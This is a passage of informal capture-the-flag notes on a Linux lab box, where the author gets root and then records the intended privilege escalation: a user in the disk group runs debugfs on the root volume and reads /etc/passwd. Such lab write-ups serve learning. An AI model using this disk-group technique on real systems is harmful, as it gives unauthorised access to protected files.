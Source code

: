 Yas it worked!

![[PG/Linux/attachments/Pasted image 20250711115924.png]]

⭐got root⭐

Grab root flag

![[PG/Linux/attachments/Pasted image 20250711120032.png]]
- wtf

Excirse me 

![[PG/Linux/attachments/Pasted image 20250711120155.png]]

Was this not the intended exploit.. lol

Okay apparently this is the intended path...

# Privesc 

Again when I need to slow down..

![[PG/Linux/attachments/Pasted image 20250711120933.png]]
- notice dora part of disk group

According to HackTricks, we can use `debugfs` to enumerate disk with root level privileges where we can read and write to any files

Display disk space and usage 

```
df -h
```


![[PG/Linux/attachments/Pasted image 20250711121148.png]]

We want the `/` to have root access which is mounted on `/dev/mapper/ubuntu--vg-ubuntu--lv`

# Debugfs

```
debugfs /dev/mapper/ubuntu--vg-ubuntu--lv
```

Which basically gives us a debugfs prompt 

Test creating a directory 
```
mkdir test
```

Try to read `/etc/passwd

```
cat /etc/passwd
```
